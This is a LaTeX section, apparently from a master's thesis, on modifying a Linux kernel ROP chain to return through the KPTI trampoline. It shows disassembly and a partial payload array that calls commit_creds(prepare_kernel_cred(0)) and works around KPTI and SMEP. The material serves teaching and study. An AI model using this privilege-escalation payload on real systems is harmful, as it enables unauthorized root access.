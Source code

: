 \documentclass{masterthesis}
\begin{document}
\section{Tweaking the ROP chain}
The piece of code resides in a function called \lstinline{swapgs_restore_regs_and_return_to_usermode()} which we always find with \lstinline{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     rdi, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [rdi+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [rdi+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [rdi+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [rdi+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [rdi+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [rdi]
.text:FFFFFFFF81200F43                 push    rax
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address FFFFFFFF81200F26 the function makes a series of pop that free the stack, then you get to the part that swaps the tables of the page.
We will have two extra pop at the beginning, then we will add two dummy values, and we will modify the final part of our ROP chain from \lstinline{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \lstinline{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in the paragraph (subsection {Second scenario}), it can be used to bypass the SMEP.
\end{document}
